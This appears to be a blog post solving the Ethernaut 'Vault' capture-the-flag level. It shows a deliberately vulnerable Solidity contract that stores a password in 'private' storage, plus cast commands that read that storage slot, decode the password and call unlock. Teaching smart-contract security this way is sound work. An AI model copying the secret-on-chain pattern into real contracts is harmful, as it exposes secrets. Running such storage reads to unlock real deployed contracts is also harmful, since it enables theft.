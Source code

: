 ```yaml
---
title: Ethernaut - Vault - Solution
date: '2024-05-06'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Vault CTF
---
```


# Ethernaut - Vault - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## Solution

The goal of this level is to unlock the vault by providing the correct password.

First, recall that while marking a variable as `private` prevents other contracts from accessing it, it does not mean that the value of this variable is not publicly accessible.
In fact, we can easily inspect `password` by accessing the storage slot with index 1 (index 0 stores the `locked` state) using [Cast](https://book.getfoundry.sh/cast/):

```bash
cast storage --rpc-url=<your rpc url> <your level instance address> 1
```

This tells us that the correct password is `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`.

_**Note** For the fun of it, we can  convert this from `bytes32` to ASCII via:_

```bash
# Returns "A very strong secret password :)"
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

To complete the level, we can simply call the unlock function using the above password as the function parameter:

```bash
cast send <your level instance address> "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key <your private key> --rpc-url <your rpc url> --gas-price <a sufficiently high gas price>
```

_**Note** You can check the current gas price via:_

```bash
cast gas-price --rpc-url <your rpc url>
```